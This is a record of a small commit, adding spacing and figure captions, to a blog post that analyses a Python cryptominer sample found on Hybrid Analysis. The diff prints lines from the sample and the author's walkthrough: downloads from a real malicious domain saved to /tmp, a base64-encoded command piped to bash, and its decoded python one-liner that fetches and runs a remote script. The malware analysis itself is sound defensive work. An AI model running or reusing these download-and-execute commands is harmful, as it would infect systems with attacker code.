

Before and after one commit to Michael-Meade/MinerFind, a Jekyll site: the page built from _posts/2021-5-24-Python-Base-miner.md, in a window 1280 px wide and 900 px high, scrolled down 1694 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; the repository's description, which GitHub fills in, is left out.

Commit message:
Update 2021-5-24-Python-Base-miner.md

````diff
--- a/_posts/2021-5-24-Python-Base-miner.md
+++ b/_posts/2021-5-24-Python-Base-miner.md
@@ -2,6 +2,7 @@
 
 This sample can be found using the following <a href="https://www.hybrid-analysis.com/sample/bf62bbe85d6a243c0567c54e6889c480cfab04760125b312a547d7993c3551c6">here</a>
 This sample caught my eye because Hybrid Analysis labled the sample as 'Python:Miner'.
+
 ```python
 import urllib
 import platform
@@ -67,10 +68,14 @@ else:
 		pass
 
 ```
+Figure 1 shows the sample that I found on Hybrid.
+
 The first thing that the code does is check to see if the infected operating system is 64 bit. The code will then visit the URL http://bash.givemexyz[.]in/x86_64. If the site returns a 200 status the code will save the contents of web page to a file named '/tmp/x86_64'. Next the code will visit 'http://bash.givemexyz.in/i686'. Again if the page returns a 200 status code the code will save the contents of the file as '/tmp/i686'. The code will do the same thing with the third URL, 'http://bash.givemexyz.in/go'. The code will save the file in a file named '/tmp/go'.
 
-Next the code will use Python's chmod method to change the permissons to 0777. After that is done the code will use Python's system command to run commands on the infected machine. The command looked like this: `echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly9iYXNoLmdpdmVtZXh5ei5pbi9iYi5weSIpLnJlYWQoKSkn | base64 -d | bash -`
+Next the code will use Python's chmod method to change the permissons to 0777. After that is done the code will use Python's system command to run commands on the infected machine. The command looked like this:
 
+`echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly9iYXNoLmdpdmVtZXh5ei5pbi9iYi5weSIpLnJlYWQoKSkn | base64 -d | bash -`
+Figure 2,
 The command above will use the system's echo command to echo the base64 string, the '|' tells the operating system to also run the command 'base64 -d' on the base64 string. The 'base64 -d' command is used to decode base64 strings. The decoded command looks like this:
 
 `python -c 'import urllib;exec(urllib.urlopen("http://bash.givemexyz.in/bb.py").read())'`
````
